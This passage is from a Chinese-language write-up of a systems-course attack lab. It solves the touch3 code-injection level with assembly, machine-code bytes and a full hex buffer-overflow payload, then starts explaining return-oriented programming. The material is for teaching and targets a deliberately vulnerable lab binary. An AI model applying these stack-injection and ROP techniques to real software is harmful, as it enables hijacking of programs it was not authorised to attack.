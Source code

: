 **解决步骤**：

1. 首先将cookie的存在内存中，存在哪里呢？由touch3的函数可以发现，一定要存储在返回地址的上面，因为touch3中cbuf的地址开辟的太大，如果是在返回地址下面开辟，有可能会导致被覆盖。所以就可以设置在返回地址的上面。既然要存在内存中，所以需要翻译为16进制。0x59b997fa，查asscal码表可以发现，每个字符对应的16进制为`35 39 62 39 39 37 66 61`。
2. 类似于level2的操作。设置参数跳转到touch3.

```
ans3.s文件：
movq $0x5561dca8, %rdi			// 将cookie的地址(%rsp + 0x30)作为touch3的第一个参数
pushq $0x00000000004018fa		// touch3的地址压栈
retq							// 跳转到touch3

ans3.d文件:
ans3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 68 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
```

<img src="http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221022223723809.png" alt="image-20221022223723809" style="zoom: 50%;" />

这是函数的栈帧的分配图。所以可以构建输入的16进制文件。

```
48 c7 c7 a8 dc 61 55 68			#注入代码的字节序列
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 		# 返回地址为rsp的地址
35 39 62 39 39 37 66 61			# cookie字符串的16进制序列

```

![image-20221022224014030](http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221022224014030.png)

---

####  Return-Oriented Programming

在ratrget中进行代码注入攻击比在ctarget中更难，因为有两种手段来阻止这种攻击。

1. 它使用随机化，以使堆栈位置与另一个运行之间的不同之处。这使得无法确定您的注射代码将在何处。
2. 它将存放堆栈的内存段标记为不可执行，因此即使你可以将程序计数器设置为注入代码的开始，程序也会因为一个内存区段错误而失败。

就是首先不知道程序执行的起始地址，因为堆栈运行之间的地址不同的，并且标记堆栈中的可执行区域，就算把指令的字节序列放入堆栈，将PC指针指向该字节序列，也无法执行，那么怎么来完成攻击呢？

writeup文档中介绍了一种ROP攻击，大致的意思就是会利用现有的代码来完成攻击，可以利用现有的指令字节序列片段来制作小工具，来完成攻击。将这些小工具的指令字节的地址全部压到栈上通过ret指令依次执行需要执行的代码。由于不断地跳转到指定的位置去执行，所以并没有直接去执行栈上的代码，并且栈随机化也不会影响，因为没有需要用到绝对地址。

<img src="http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221023083200802.png" alt="image-20221023083200802" style="zoom:67%;" />
